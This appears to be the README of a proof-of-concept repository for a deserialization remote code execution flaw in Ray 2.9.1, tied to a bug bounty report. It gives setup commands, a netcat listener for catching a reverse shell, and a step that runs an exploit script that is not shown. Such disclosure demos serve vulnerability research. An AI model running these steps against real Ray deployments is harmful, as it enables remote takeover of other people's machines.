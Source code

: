 # Ray 2.9.1 Deserialization Demo - CWE-502
Report: https://huntr.com/bounties/ce6cb61c-fce1-406f-80e2-f3b7cdddbd6f
Resources:
   - https://docs.ray.io/en/latest/ray-overview/installation.html
   - https://github.com/ray-project/ray


## Overview
### Description
This is an RCE for Ray 2.9.1. The exploit is a deserialization attack that allows an attacker to execute arbitrary code on the target machine. The attack is performed by sending a malicious serialized object to the Ray service.

### Rating
The vulnerability has been rated as `Critical` with a CVSS score of `9.8`. This is because the vulnerability is remotely exploitable and allows an attacker to execute arbitrary code on the target machine.


## Commands
### Terminal 1 - Start the Service
```bash
docker pull rayproject/ray:2.9.1
docker run -it -p 10001:10001 -p 10002:10002 -p 10003:10003 -p 10004:10004 --shm-size=4.43gb rayproject/ray:2.9.1
```

From the container run:
```bash
ray start --head
```

### Terminal 2 - `netcat` Listener
```bash
nc -lvp 4321
```

### Terminal 3 - Attack
```bash
python -m venv .venv-3.8
source .venv/bin/activate
pip install -r requirements.txt
python exploit.py
```
